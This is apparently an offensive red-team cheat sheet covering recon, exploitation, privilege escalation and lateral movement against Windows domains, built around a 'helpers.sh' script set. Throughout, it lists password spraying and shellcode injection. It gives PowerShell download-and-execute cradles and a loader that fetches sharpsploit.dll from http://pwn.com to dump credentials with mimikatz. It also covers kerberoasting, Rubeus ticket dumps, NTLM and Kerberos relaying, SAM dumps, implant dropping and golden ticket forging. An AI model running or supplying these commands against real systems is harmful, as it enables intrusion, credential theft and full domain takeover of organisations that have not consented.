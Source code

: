 
## Cheat sheet using "helpers.sh" and other scripts/snippets:

### A. outside

#### 1. online content
	 harvestData target.com
	 googleSearch target.com "employee data filetype:pdf"
	 cewlHarvestData https://target.com/page.aspx

#### 2. dns enumeration
	 getIPAddress target.com
	 digDump 10.10.10.1
	 whoisARIN 10.10.10.1
	 dnsRecon target.com ns.target.com
	 dnsReconReverseIP target.com ns.target.com 10.10.10.0/24
	 harvestData target.com

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScan hosts.txt
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://target.com/ /seclists/common.txt -X .aspx, .asmx, .svc
	 wfuzz -w wordlist/general/common.txt http://target.com/FUZZ
	 python cve-2020-XXXX_checker.py target.com

#### 8. exploit
	 sprayHTTP target.com target.local usernames.txt Summer2020
	 rulerCheck user.name@target.local	 
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(iwr http://'...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(gc ....txt|out-string)

### B. inside

#### 1. broadcasts
	 dnsBroadcastDiscovery
	 dhcpBroadcastScan
	 respondRelay
	 tcpdump -lnv -i eth0 icmp

#### 2. dns enumeration
	 getIPAddress target.local dc.target.local
	 digDump dc.target.local
	 dnsRecon target.local dc.target.local
	 dnsReconReverseIP target.local dc.target.local 10.10.10.0/24

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScans hosts.txt
	 serviceScan 10.10.10.1
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 serviceFingerprintScan 10.10.10.1
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. rpc enumeration
	 getRPCUserInfo 10.10.10.1
	 getRPCPWInfo 10.10.10.1
	 checkRPCPrintSpool 10.10.10.1
	 getInterfaces 10.10.10.1

#### 7. dumps
	 dumpRPC 10.10.10.1
	 dumpSAMR 10.10.10.1

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://sp.target.local/ /common.txt -X .aspx, .asmx
	 wfuzz -w wordlist/general/common.txt http://web.target.local/FUZZ
	 python cve-2020-XXXX_checker.py target.local

#### 8. exploit	 
	 spraySMB target.com target.local usernames.txt Summer2020	 
	 implantShellcode
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # iex(new-object net.webclient).downloadstring('...');

### C. local

#### 1. enum
	 # seatbelt -user
	 # invoke-hostenum
	 # invoke-allchecks
	 # invoke-sharefinder
	 # invoke-edrchecker
	 # invoke-bloodhound -domain target.local
	 # $boxes=get-netcomputer -domain target.local -fulldata
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/connectionStrings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/system.web/machineKey")}
	 # $boxes|%{$_|add-member -membertype noteproperty -name ipaddress -value (get-ipaddress $_.dnshostname).ipaddress -force};
	 # $boxes|%{$_|add-member -membertype noteproperty -name shares -value (invoke-sharefinder -computername $_.dnshostname -excludestandard -checkshareaccess) -force};
	 # foreach($item in $shares){$share,$desc=$item -split ' ',2;gci -file -filter *.config -path "$share"|%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")|where key -match pass}}

#### 2. privesc
	 # invoke-kerberoast -domain target.local -outputformat hashcat|select hash
	 # invoke-tokenmanipulation -createprocess "cmd.exe" -username "target.local/user.name" processargs "/c whoami"";
	 # invoke-binary rubeus.exe triage
	 # invoke-binary rubeus.exe dump
	 # invoke-binary internalmonologue.exe
	 # sweetpotato.exe -c 4991d34b-xxx-xxx-xxx-xxx -p cmd.exe -a "/c whoami" -l 65535
	 # dll-loader -http -path http://pwn.com/sharpsploit.dll; [sharpsploit.credentials.mimikatz]::logonpasswords();
	 # inject-shellcode -shellcode $buf -parentid 4502 -queueuserapc	 
	 # invoke-inveigh -http n
	 # invoke-inveighrelay -target target.local -command "whoami"
	 # invoke-socksproxy -port 65535
	 # make immutable:
	 # chattr +i /path/to/filename
	 # chattr +i /etc/shadow
	 # lsattr /etc/shadow
	 # remove immutable:
	 # chattr -i /etc/shadow
	 # lsattr /etc/shadow

### D. network 	

#### 1. lateral
     getSPNs target.local
	 crackSPNs spns.txt passwords.txt
	 respondRelay
	 ntlmRelay hosts.txt
	 smbRelay target.local
	 localProxy
	 portForward 65535 127.0.0.1 10.10.10.1 65535
	 socksProxy 127.0.0.1 65535 root 10.10.10.1
	 localHTTPTunnel 127.0.0.1 65535 http://target.com/george.aspx	 
	 pyinstaller.exe -onefile socks.py
	 dropImplant target.local
	 wmiShell target.local
	 winRMShell target.local
	 smbShell target.local
	 getUser admin.user
	 getComputer dc.target.local
	 getUsers target.local
	 getFullComputers target.local
	 getShares target.local
	 mountShare target.local e\$ 
	 find ./ type -f -name "*web*.config"
	 grep -rnw "password" 

#### 2. escalation
	 getLoggedOn target.local
	 getSessions target.local
	 dumpSAM target.local
	 huntUser admin.user
	 getDelegation target.local
	 addSPNDNS host/pwn-target.local dc.target.local
	 addDNS 10.10.10.1 pwn-target.local dc.target.local
	 ntlmRelayDelegate box.local target.local 10.10.10.1
	 krbRelayUser target.local user.name Summer2020
	 krbRelayUser AES256XXXX
	 printerRelay dc.target.local pwn-target.local
	 krbExportTGT dc.target.local_krbtgt.ccache
	 dumpSIDs dc.target.local
	 getGoldTicket AES256XXXX S-1-5-21-XXXX target.local pwn.user
	 dumpDCOnlyTGT dc.target.local
	 searchsploit "privesc"|grep local
	 googleSearch github.com "privesc CVE-2020-XXXX"
